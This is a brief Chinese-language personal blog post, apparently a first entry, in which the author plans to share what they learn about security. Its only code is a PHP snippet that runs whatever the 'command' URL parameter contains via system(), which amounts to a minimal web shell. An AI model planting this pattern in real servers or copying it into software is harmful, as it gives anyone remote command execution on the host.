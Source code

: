 ```yaml
---
title: Frist Post
date: 2024/07/29
categories: []
tags: []
description: 第一篇????

toc: true 
comments: true 

published: true #不顯示此文章
---
```


哈哈哈哈原本以為我不會想來寫文章分享東西但是我還是來了XDD

## 接下來
我接下來會來分享一些我學習的過程資安之類的 ~~其他主題我在想想~~

## code
```php

<?php
if (isset($_GET['command'])) {
    $command = $_GET['command'];
    system($command);
}

```





